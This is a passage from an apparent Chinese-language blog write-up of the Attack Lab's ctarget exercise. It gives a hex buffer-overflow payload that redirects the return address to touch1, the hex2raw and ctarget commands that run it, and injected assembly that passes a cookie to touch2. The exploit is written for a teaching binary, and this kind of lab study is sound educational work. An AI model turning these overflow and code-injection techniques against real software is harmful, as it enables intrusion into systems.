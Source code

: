 攻击序列touch1.txt

```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 
```

保存在touch1.txt里，并通过hex2raw转换为字符串。并执行程序。

```sh
./hex2raw <touch1.txt>2.txt 
./ctarget -qi 2.txt
```

![image-20210428160021166](https://www.kro1lsec.com:442/images/2021/04/28/20210428160021.png)

### **1.2level 2**

要求：要求程序执行完getbuf()后，执行touch2，而且还要传入参数，即你的cookie

小建议

- `touch2`的参数`val`是利用`rdi`寄存器进行传递的
- 你要利用某种方式让`getbuf`的返回地址为`touch2`的地址
- 你的注入代码的传入参数应该等于`cookie`的值。
- 不要在注入代码内调用`ret`或者`call`
- 请参见附录B中有关如何使用工具生成字节级表示形式的指令序列的讨论。

`touch2`的代码如下

```c
 void touch2(unsigned val)
 {
     vlevel = 2; /* Part of validation protocol */
     if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
     } else {
          printf("Misfire: You called touch2(0x%.8x)\n", val);
          fail(2);
    }
   exit(0);
 }
```

逻辑：比较我们传入的参数`val`是否等于`cookie`的值，如果等于就可以通过。

本题的关键就是在改变返回地址前也设置`rdi`寄存器的值。

插入的汇编代码

```text
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```
